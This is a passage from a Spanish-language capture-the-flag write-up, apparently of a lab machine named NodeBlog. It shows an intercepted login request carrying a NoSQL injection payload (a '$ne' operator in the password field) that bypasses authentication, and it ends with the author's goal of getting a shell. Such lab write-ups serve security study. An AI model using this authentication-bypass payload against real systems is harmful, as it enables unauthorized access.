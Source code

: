 a esto:

```json
POST /login HTTP/1.1
Host: 10.129.96.160:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 60
Origin: http://10.129.96.160:5000
Connection: keep-alive
Referer: http://10.129.96.160:5000/login
Upgrade-Insecure-Requests: 1
Priority: u=0, i

{
	"user":"admin",
	"password":{
	"$ne":"admin"
		}

}
```

y pulsamos en Forward para dejar que la petición continúe ya que la tenemos interceptada

![[20250723112504.png]](nodeblog-images/20250723112504.png)

Hemos conseguido acceso a la pagina web. ahora tenemos que encontrar la manera de vulnerarla para conseguir una shell

![[20250723112755.png]](nodeblog-images/20250723112755.png)
